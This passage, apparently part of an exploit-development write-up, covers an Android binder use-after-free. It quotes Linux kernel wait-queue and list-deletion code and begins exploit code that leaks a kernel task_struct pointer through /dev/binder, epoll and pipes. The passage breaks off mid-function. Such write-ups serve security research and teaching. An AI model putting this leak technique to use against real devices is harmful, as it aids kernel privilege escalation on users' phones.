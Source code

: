 ```c
void remove_wait_queue(struct wait_queue_head *wq_head, struct wait_queue_entry *wq_entry)
{
	unsigned long flags;

	spin_lock_irqsave(&wq_head->lock, flags);
	__remove_wait_queue(wq_head, wq_entry);
	spin_unlock_irqrestore(&wq_head->lock, flags);
}
```

```c
static inline void
__remove_wait_queue(struct wait_queue_head *wq_head, struct wait_queue_entry *wq_entry)
{
	list_del(&wq_entry->entry);
}
```

```c
static inline void list_del(struct list_head *entry)
{
	__list_del(entry->prev, entry->next);
	entry->next = LIST_POISON1;
	entry->prev = LIST_POISON2;
}
```

```c
static inline void list_del(struct list_head *entry)
{
	__list_del(entry->prev, entry->next);
	entry->next = (struct list_head*)LIST_POISON1;
	entry->prev = (struct list_head*)LIST_POISON2;
}
```

```c
static inline void __list_del(struct list_head *prev, struct list_head *next)
{
	next->prev = prev;
	prev->next = next;
}
```

As we can see `__list_del()` is called and writes the address of `binder_thread->wait.head` to `binder_thread->wait.task_list.next` and `binder_thread->wait.task_list.prev`.

**Leaking task_struct kernel pointer**

`task_struct_leak()` is responsable for leaking the `task_struct` pointer. At first does preliminary jobs like opening `/dev/binder`, allocating an epoll, and linking it, creating a pipe (which will be used later for reading the leaked address), changing the pipe size to a smaller value, since we’ll need to fill it up completely later, a smaller pipe is better, we also `mmap()` a 0x1000 buffer, and setup the iovecs.

```c
void task_struct_leak() {
    printf("\t[+] opening /dev/binder\n");
    open_binder();

    printf("\t[+] allocating epoll\n");
    epoll_alloc();

    printf("\t[+] linking epoll\n");
    epoll_link();

    printf("\t[+] setting up a pipe\n");
    if( pipe(pipe_fd) ) {
```